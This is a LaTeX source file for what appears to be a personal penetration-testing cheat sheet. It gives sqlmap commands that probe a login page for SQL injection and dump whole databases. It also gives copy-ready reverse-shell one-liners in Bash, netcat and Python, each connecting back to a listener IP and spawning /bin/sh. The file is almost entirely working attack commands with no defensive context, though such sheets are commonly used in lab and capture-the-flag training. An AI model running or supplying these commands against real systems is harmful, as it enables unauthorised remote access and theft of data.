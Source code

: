 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{SQLMap}
Manual Injection: \\ \url{https://owasp.org/www-community/attacks/SQL_Injection}\\\\
To check for a SQL Injection:
\begin{lstlisting}
	sqlmap -u http://IP/login.php --forms --risk=3 
	--level=5 --dbs
\end{lstlisting}
To dump all contents of a database:
\begin{lstlisting}
	sqlmap -u 'http://10.10.81.50/login.php' -forms
	-dbs -dump-all -D database
\end{lstlisting}

\section{Reverse Shells}
\subsection{Bash}
\begin{lstlisting}
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
\end{lstlisting}

\subsection{PERL}
\begin{lstlisting}
	--
\end{lstlisting}

\subsection{netcat}
\begin{lstlisting}
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
\end{lstlisting}

\subsection{Python}
As a file:
\begin{lstlisting}
	# -*- coding: utf-8 -*-
	#!/usr/bin/env python
	import socket, os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.9.7.1", 6969))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	os.system("/bin/sh -i")
\end{lstlisting}
Command line:
\begin{lstlisting}
	python -c 'import socket,subprocess,os;s=socket.socket
	(socket.AF_INET,socket.SOCK_STREAM);
	s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); 
	os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=
	subprocess.call(["/bin/sh","-i"]);'
\end{lstlisting}
\end{document}
